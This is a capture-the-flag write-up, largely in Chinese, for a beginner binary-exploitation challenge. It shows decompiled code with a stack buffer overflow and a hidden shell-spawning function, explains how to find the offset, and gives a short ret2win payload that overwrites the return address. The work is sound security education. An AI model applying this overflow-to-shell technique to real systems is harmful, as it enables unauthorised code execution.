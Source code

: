 # Simply Pwn

## Information

- `MyFirstCTF` `Baby`
- `Pwn`

The simplest pwn

## Solution

題目提供一個壓縮檔，其中包含一個 ELF 64bits 的 binary 檔。

- [Stack-based Buffer Overflow](https://cwe.mitre.org/data/definitions/121.html)

透過反組譯、反編譯工具進行查看。
- IDA pro 一下
    - main
    
        可以發現 `read` 出現一個嚴重的 Stack-based Buffer Overflow。
        ```c
        int __cdecl main(int argc, const char **argv, const char **envp)
        {
        __int64 v4; // [rsp+0h] [rbp-50h] BYREF
        __int64 v5[8]; // [rsp+8h] [rbp-48h] BYREF
        int v6; // [rsp+4Ch] [rbp-4h]

        v4 = ',emocleW';
        v5[0] = 32LL;
        memset(&v5[1], 0, 48);
        write(1LL, "Show me your name: ", 19LL);
        v6 = read(0LL, (char *)v5 + 1, 256LL);
        if ( v6 > 0 )
            write(1LL, &v4, v6 + 9);
        return 0;
        }
        ```
        另外還有一個重點，function 結構中存在一個名為 shellcode 的 function。
        ```c
        void __fastcall __noreturn shellcode(__int64 a1, __int64 a2, __int64 a3, int a4, int a5, int a6)
        {
        execl((unsigned int)"/bin/sh", (unsigned int)"/bin/sh", 0, a4, a5, a6);
        exit(0LL);
        }
        ```

- 根據上面資訊合理推測是要透過 `main` 的 Stack-based Buffer Overflow 將位址跳轉到 `shellcode`。

- offset 的部分則可以透過如 GDB 等的動態分析工具，對程式進行隨機輸入，並對行為進行觀察，從而找到 offset。
    - GEF: pattern create -> pattern search。
    - cyclic: 透過 `cyclic` 生成隨機字串，再透過記錄崩潰輸入的值，並使用 `cyclic -l` 反向尋找 offset。

- payload
    ```
    // offset = (8*8-1) + 8 + 8  # v5[0:8]-1 + v4 + rbp
    // shellcode_addresss = 0x04017AA
    payload = b'a'*71 + p64(0xdeadbeef) +  p64(shellcode_address)
    ```